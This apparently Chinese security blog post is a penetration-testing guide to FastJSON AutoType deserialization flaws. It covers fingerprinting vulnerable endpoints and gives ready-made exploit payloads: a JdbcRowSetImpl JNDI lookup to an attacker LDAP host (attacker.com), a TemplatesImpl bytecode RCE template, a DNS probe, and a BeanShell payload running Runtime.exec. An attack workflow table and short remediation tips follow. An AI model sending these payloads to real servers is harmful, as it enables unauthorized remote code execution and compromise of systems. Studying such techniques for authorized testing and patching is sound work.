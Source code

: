 #  渗透测试实战：FastJSON漏洞如何在黑盒场景中精准触发？   
原创 火力猫  季升安全   2025-04-24 00:15  
  
# 🧨 FastJSON 渗透实战指南  
## 1️⃣ 什么是 FastJSON？  
  
FastJSON 是阿里巴巴开源的一款高性能 Java JSON 解析库，用于将 JSON 字符串转换为 Java 对象，或将 Java 对象序列化为 JSON。  
  
👉 **开发者最常用的方法**  
：  
```
Object obj = JSON.parse(json); // 动态解析，关键点！
```  
  
**JSON.parse的安全隐患分析详情**  
👉 [一文看懂 JSON.parse 背后的安全隐患与黑盒利用方法](https://mp.weixin.qq.com/s?__biz=MzkxNjY5MDc4Ng==&mid=2247484854&idx=1&sn=f92252c15004768d1f8911ce80e3de7e&scene=21#wechat_redirect)  
  
## 2️⃣ FastJSON 漏洞产生原因  
### 🚨 问题核心：AutoType 自动类型识别  
  
当传入如下 JSON：  
```
{"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "ldap://attacker.com:1389/Exploit","autoCommit": true}
```  
  
若 **AutoType 功能未禁用**  
，FastJSON 会尝试加载并实例化你指定的类。攻击者可以构造恶意类，实现远程代码执行（RCE）！  
  
**🧯 正常业务场景根本不需要 @type，但若未做限制，就容易被利用。**  
## 3️⃣ 怎么发现可利用点呢？  
### 观察报错信息：  
  
<table><thead><tr style="box-sizing: border-box;"><th style="box-sizing: border-box;"><span cid="n8" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">关键词</span></span></span></th><th style="box-sizing: border-box;"><span cid="n9" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">意义</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;"><span cid="n11" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="code" spellcheck="false" style="box-sizing: border-box;"><code style="box-sizing: border-box;"><span leaf="">com.alibaba.fastjson</span></code></span></span></td><td style="box-sizing: border-box;"><span cid="n12" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">FastJSON 类路径</span></span></span></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;"><span cid="n14" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="code" spellcheck="false" style="box-sizing: border-box;"><code style="box-sizing: border-box;"><span leaf="">com.alibaba.fastjson.JSONException</span></code></span></span></td><td style="box-sizing: border-box;"><span cid="n15" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">JSON 解析异常</span></span></span></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;"><span cid="n17" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="code" spellcheck="false" style="box-sizing: border-box;"><code style="box-sizing: border-box;"><span leaf="">AutoType is not support</span></code></span></span></td><td style="box-sizing: border-box;"><span cid="n18" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">禁用 AutoType 提示</span></span></span></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;"><span cid="n20" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="code" spellcheck="false" style="box-sizing: border-box;"><code style="box-sizing: border-box;"><span leaf="">Could not auto-type class</span></code></span></span></td><td style="box-sizing: border-box;"><span cid="n21" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">尝试加载类失败，典型 FastJSON 错误</span></span></span></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;"><span cid="n23" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="code" spellcheck="false" style="box-sizing: border-box;"><code style="box-sizing: border-box;"><span leaf="">parseObject / parseArray</span></code></span></span></td><td style="box-sizing: border-box;"><span cid="n24" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">方法堆栈中可能出现</span></span></span></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;"><span cid="n26" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="code" spellcheck="false" style="box-sizing: border-box;"><code style="box-sizing: border-box;"><span leaf="">ClassNotFoundException</span></code></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""> + </span></span><span md-inline="code" spellcheck="false" style="box-sizing: border-box;"><code style="box-sizing: border-box;"><span leaf="">@type</span></code></span></span></td><td style="box-sizing: border-box;"><span cid="n27" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">尝试加载不存在类（典型探测响应）</span></span></span></td></tr></tbody></table>  
报错信息示例：  
```
{"error": {"message": "Could not auto-type class","type": "com.alibaba.fastjson.JSONException"  }}
```  
### ✅ API 特征分析：  
#### 1. 参数中出现原始 JSON 字符串字段  
```
{"payload": "{\"a\":1,\"b\":2}"// 👈 明显是服务端要 parse 的}
```  
  
🔍 **说明**  
：开发者常将嵌套 JSON 作为字符串参数传给后端，然后用 JSON.parse(payload)  
 解析。  
#### 2. 接口直接接收 JSON 并返回原样结构  
```
POST /api/echoContent-Type: application/json{"name": "Alice","age": 23}
```  
  
响应：  
```
{"code": 0,"data": {"name": "Alice","age": 23  }}
```  
  
🎯 分析：接口对原始 JSON 做了结构化处理再输出，可能使用了 parseObject()  
。  
#### 3. 接口响应字段中回显了传入的结构（比如 @type）  
  
输入：  
```
{ "@type":"www.geekserver.top" }
```  
  
响应回显：  
```
{ "@type": "www.geekserver.top" }
```  
  
🔍 说明服务端未做结构过滤，可能直接使用了 JSONObject  
 存储处理用户输入。  
  
👉**当参数字段名中出现data、config、json、payload 就应该引起注意**  
### ✅ 响应行为分析：  
- 请求中加入 @type  
 字段后，如果有下面特征，就需要进一步分析：  
  
- 直接回显  
  
- 报错有类名或堆栈信息  
  
- 响应时间明显变慢（sleep 链）  
  
- DNS 有请求（URL/DNS 测试）  
  
## 4️⃣ 漏洞利用方式  
### 📍 利用方式一：JNDI 回连  
```
{"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "ldap://attacker.com:1389/Exploit","autoCommit": true}
```  
- ✅ 原理：  
  
- setDataSourceName()  
 内部会调用 connect()  
  
- 在 autoCommit=true  
 时触发 JNDI 查询 → 远程类加载 → RCE  
  
- 🎯关注点：  
  
- 确认 autoCommit  
 字段被调用  
  
- 确认LDAP 服务端返回恶意 class  
  
- 🔥 结果：RCE 或 LDAP 服务器收到回连  
  
### 📍 利用方式二：TemplatesImpl RCE  
```
{"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","transletBytecodes": ["<恶意字节码 base64>"],"transletName": "a","outputProperties": {}}
```  
- ✅ 原理：类加载器会执行字节码静态块，具体：  
  
- newTemplates()  
 时会加载并实例化 bytecode 中的类  
  
- bytecode 中可植入静态块执行任意命令  
  
- 🔥 结果：直接 RCE  
  
### 📍 利用方式三：DNS 盲注  
```
{"@type": "java.net.InetAddress","val": "www.geekserver.top"}
```  
- ✅ 原理：FastJSON 反序列化InetAddress.getByName()  
 触发 DNS 请求  
  
- 🔥 结果：在无回显环境中判断漏洞存在  
  
FastJSON无回显探测   
👉 [DNS 一响，漏洞登场！FastJSON 不出网探测全攻略](https://mp.weixin.qq.com/s?__biz=MzkxNjY5MDc4Ng==&mid=2247484869&idx=1&sn=88c819aa551068b45e14ae20ae239e21&scene=21#wechat_redirect)  
  
  
### 📍 利用方式四：BeanShell 执行脚本  
```
{"@type":"bsh.BeanShell","name": "geekserver.top","eval": "java.lang.Runtime.getRuntime().exec('id').toString()"}
```  
- ✅ 前提：服务端有 BeanShell  
  
- 🔍 原理：bsh.BeanShell  
 在 eval()  
 时直接执行脚本  
  
- 🔥 结果：直接命令执行（某些旧系统）  
  
## 5️⃣ 总结  
  
<table><thead><tr><th style="color: rgb(0, 0, 0);font-size: 16px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);height: auto;border-style: solid;border-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;padding: 5px 10px;min-width: 85px;"><section><span leaf="">步骤</span></section></th><th style="color: rgb(0, 0, 0);font-size: 16px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);height: auto;border-style: solid;border-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;padding: 5px 10px;min-width: 85px;"><section><span leaf="">操作</span></section></th><th style="color: rgb(0, 0, 0);font-size: 16px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);height: auto;border-style: solid;border-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;padding: 5px 10px;min-width: 85px;"><section><span leaf="">工具</span></section></th></tr></thead><tbody><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">🎯 收集</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">Burp 抓包，分析响应结构、错误信息</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">Burp Suite</span></section></td></tr><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">🔍 探测</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">插入 </span><code><span leaf="">{&#34;@type&#34;:&#34;xxx&#34;}</span></code><span leaf=""> 逐步 fuzz</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">Burp Intruder</span></section></td></tr><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">📡 验证</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">DNS、回连、延迟判断</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">DNSLog、JNDI 工具</span></section></td></tr><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">💥 利用</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">发送 Payload，触发命令执行</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">LDAP 服务器、Metasploit</span></section></td></tr><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">🧪 取证</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">回连日志、系统变更、回显信息</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">Burp Logger、日志分析</span></section></td></tr></tbody></table>  
## 🛡️ 修复建议：  
- 关闭 AutoType：ParserConfig.getGlobalInstance().setAutoTypeSupport(false);  
  
- 若必须开启，严格配置白名单：addAccept("com.safe.package.")  
  
- 不使用 JSON.parse()  
，应指定明确类  
  
  
  
  
  
